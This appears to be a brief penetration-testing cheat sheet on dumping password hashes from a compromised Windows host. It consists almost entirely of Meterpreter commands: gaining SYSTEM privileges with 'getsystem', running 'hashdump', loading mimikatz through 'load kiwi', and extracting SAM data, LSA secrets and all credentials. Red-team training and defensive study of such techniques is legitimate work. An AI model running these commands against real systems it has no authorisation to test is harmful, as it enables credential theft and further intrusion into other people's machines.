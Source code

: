 Dumping Hashes
**********************

Pre-Req
##################

*Make sure you root privileges*

.. code-block:: console

    run post/windows/gather/win_privs
    getsystem

Meterpreter
###################

dump the hashes
+++++++++++++++++++

.. code-block:: console

    hashdump

mimikatz from meterpreter
###############################

First load mimikatz from meterpeter.

.. code-block:: console

    load kiwi

You can use these commands to dump hashes

.. code-block:: console

    creds_all
    lsa_dump_sam
    lsa_dump_secrets
